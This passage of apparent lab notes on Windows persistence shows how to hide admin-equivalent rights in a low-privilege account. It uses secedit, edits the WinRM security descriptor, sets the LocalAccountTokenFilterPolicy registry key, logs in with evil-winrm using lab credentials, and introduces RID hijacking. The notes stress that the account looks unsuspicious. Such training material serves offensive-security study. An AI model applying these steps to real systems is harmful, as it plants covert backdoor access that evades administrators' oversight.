 To do so, we can use the `secedit` command. First, we will export the current configuration to a temporary file:
```powershell
secedit /export /cfg config.inf
```
![[Pasted image 20240909195731.png]]

We convert the .inf file into a .sdb file which is then used to load the configuration back into the system:
```powershell
secedit /import /cfg config.inf /db config.sdb

secedit /configure /db config.sdb /cfg config.inf
```

You should now have a user with equivalent privileges to any Backup Operator. The user still can't log into the system via WinRM, so let's do something about it. Instead of adding the user to the Remote Management Users group, we'll change the security descriptor associated with the WinRM service to allow thmuser2 to connect. Think of a **security descriptor** as an ACL but applied to other system facilities.

To open the configuration window for WinRM's security descriptor, you can use the following command in Powershell (you'll need to use the GUI session for this):
```powershell
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
```
![[Pasted image 20240909195809.png]]

Notice that for this user to work with the given privileges fully, you'd have to change the **LocalAccountTokenFilterPolicy** registry key, but we've done this already:
```shell-session
C:\> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```
 
 
 Checking our user's group memberships, it will look like a regular user. Nothing suspicious at all!
```shell-session
C:\> net user thmuser2
User name                    thmuser2

Local Group Memberships      *Users
Global Group memberships     *None
```

```
evil-winrm -i 10.10.6.17 -u thmuser2 -p Password321
```

### RID Hijacking
Another method to gain administrative privileges without being an administrator is changing some registry values to make the operating system think you are the Administrator.

When a user is created, an identifier called **Relative ID (RID)** is assigned to them. The RID is simply a numeric identifier representing the user across the system. When a user logs on, the LSASS process gets its RID from the SAM registry hive and creates an access token associated with that RID. If we can tamper with the registry value, we can make windows assign an Administrator access token to an unprivileged user by associating the same RID to both accounts.
